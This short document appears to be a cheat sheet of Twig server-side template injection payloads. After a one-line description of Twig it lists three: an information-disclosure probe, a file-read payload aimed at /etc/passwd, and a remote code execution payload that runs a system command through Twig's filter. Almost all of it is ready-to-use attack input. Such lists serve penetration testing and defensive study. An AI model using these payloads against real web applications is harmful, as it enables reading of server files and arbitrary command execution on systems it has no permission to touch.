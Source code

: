 Twig is a template engine for the PHP programming language.

## Information Disclosure

```twig
{{ _self }}
```

## Local File Inclusion (LFI)

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

## Remote Code Execution (RCE)
```twig
{{ ['id'] | filter('system') }}
```